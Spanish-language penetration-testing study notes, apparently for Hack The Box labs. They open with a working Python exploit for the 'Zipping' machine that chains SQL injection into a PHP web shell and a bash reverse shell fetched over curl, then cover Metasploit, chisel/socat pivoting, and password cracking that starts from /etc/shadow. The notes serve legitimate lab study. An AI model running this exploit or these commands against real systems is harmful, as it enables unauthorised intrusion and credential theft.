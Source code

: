 # Identificar y modificar exploits

```
import requests
import sys
import subprocess
import random

if len(sys.argv) < 2:
	#AQUI HABRIA QUE CAMBIAR EL LISTENER IP Y EL LISTENER PORT
    print("Usage: python3 HTB_Zipping_poc.py <listener ip> <listener port>")
    sys.exit(1)

fnb = random.randint(10, 10000)
url = "http://zipping.htb/"

session = requests.Session()

print("[+] Please run nc in other terminal: rlwrap -cAr nc -nvlp " + f"{sys.argv[2]}")

print("[+] Write php shell /var/lib/mysql/rvsl" + str(fnb) + ".php")

with open('revshell.sh', 'w') as f:
        f.write("#!/bin/bash\n")
        f.write(f"bash -i >& /dev/tcp/{sys.argv[1]}/{sys.argv[2]} 0>&1")
proc = subprocess.Popen(["python3", "-m", "http.server", "8000"])
phpshell = session.get(url + f"shop/index.php?page=product&id=%0A'%3bselect+'<%3fphp+system(\"curl+http%3a//{sys.argv[1]}:8000/revshell.sh|bash\")%3b%3f>'+into+outfile+'/var/lib/mysql/rvsl{fnb}.php'+%231")

print("[+] Get Reverse Shell")

phpshell = session.get(url + f"shop/index.php?page=..%2f..%2f..%2f..%2f..%2fvar%2flib%2fmysql%2frvsl{fnb}")

proc.terminate()
```

# Realizar explotación con metasploit

![image](https://github.com/user-attachments/assets/99bc01b1-9d9e-4c20-abf0-b6862b05e4b0)

Después de hacer un nmap y haber visto las versiones de los servicios, podemos buscar a ver si hay exploits con searchsploit.
![image](https://github.com/user-attachments/assets/5d5254ed-46a3-44ae-893c-106d6b8d6da2)

También podemos hacer la búsqueda desde la msfconsole.
![image](https://github.com/user-attachments/assets/0e842828-5115-40c3-9419-2ac7de8b8b87)

Podemos buscar haber si hay algun exploit disponible  con search 
Podemos seleccionar el eploit con use 0, sino podemos hacer un use exploit/unix/ftp/vsftpd_234_backdoor
![image](https://github.com/user-attachments/assets/e9a88f42-07c3-4743-aeb5-791075080c02)

Con show options, podemos ver los parametros que necesita el exploit.
![image](https://github.com/user-attachments/assets/15394aee-2def-4658-809e-41a57796fad5)

Con set marcamos el rhosts y le ponemos la ip de la máquina victima.
Hacemos el primer exploit y vemos que no ha conseguido crear la session, pero hacemos run y ya coge la shell como root.

# Demostrar cómo pivotar agregando una ruta y reenviando puertos
![image](https://github.com/user-attachments/assets/a2466c9e-7e63-4828-83b7-ce971ad4acd7)

Creamos un servidor  con chisel para crear un tunel http entre la máquina victima y la mía.
![image](https://github.com/user-attachments/assets/17eac6bd-afe0-433f-9a95-a48b915f8601)

Nos conectamos como cliente desde la máquina victima a la máquina atacante.
![image](https://github.com/user-attachments/assets/12952c36-afad-4e1d-886f-74c943f342fc)

Podemos ver que se nos han conectado por el puerto 6565 y que se ha generado un proxy en el puerto 1080.
![image](https://github.com/user-attachments/assets/53006bbe-e569-4f5b-af83-bca58fe63769)

Añadimos está linea al final del todo del archivo /etc/proxychains4
![image](https://github.com/user-attachments/assets/aad2e1f7-1ca9-461d-adf2-b2880a9a1816)

Añadimos el proxy y ya podremos ver la página de la segunda máquina de la red. Pero para que estas máquinas puedan conectarse a nosotros necesitamos el socat.

![image](https://github.com/user-attachments/assets/9c40aac3-b8b3-4b3e-9218-4629868a6466)

Abrimos en la máquina victima 1 un escucha en el puerto 1111, y que lo reenvie a nuestra máquina atacante al puerto 448.

![image](https://github.com/user-attachments/assets/bfcc8164-0c59-4692-b32f-0c3d3b5bc27a)

En la máquina atacante abrimos la escucha en el puerto 448 con nc.
![image](https://github.com/user-attachments/assets/b58ae2fb-b890-4d33-84a1-6668ebaf51be)

Hacemos un revershell en la máquina victima 2.
![image](https://github.com/user-attachments/assets/8244188f-b6d2-424d-a27f-d96d7b652d37)

Y en la escucha que tenemos en el puerto 448 se nos abrirá la shell de la máquina 2.





# Realizar ataques de fuerza bruta a contraseñas y descifrado de hash

![image](https://github.com/user-attachments/assets/40123c1d-985d-45e8-9f8d-92ab442b1cab)
Para hacer ataques de fuerza bruta a contraseñas, podemos utilizar hydra:
-L marca el diccionario de usernames que se probarán
-p marca el diccionario de passwords que utilizará
Después marcamos la ip objetivo y el servicio que queremos atacar.
-s marcamos puerto específico

John the ripper:
Con esta herramienta podemos hacer ataques de fuerza bruta a hashes de contraseña.

Practica de ejemplo:
`unshadow /etc/passwd /etc/shadow > password.txt`
`john --wordlist=/path/to/dictionary password.txt`
`john --wordlist=/home/kali/contraas.txt  hash.txt --format=crypt ` "--format=crypt(sirve para yescrypt que es el hash de la pass de linux)"
`john --show password.txt`


Con john podemos adaptarnos a diferentes formatos de hash y tipos de archivos protegidos por contraseña. Existen unas herramientas que convierten estos archivos o hashes a un formato legible para john the ripper. Estas herramientas son programas conocidos como 2john. Ej:
zip2john -- rar2john -- pdf2john -- keepass2john...

Hashcat

Con esta herramienta también podemos hacer ataques de fuerza bruta a contraseñas.

Ejemplos de uso:

`hashcat -m 0 -a 0 hash.txt rockyou.txt`

Con -m especificamos el tipo de hash (MD5 en este caso)
-a especifica el modo de ataque (ataque de diccionario)
Primero se pone el archivo donde tenemos el hash a crackear y luego ponemos el diccionario 
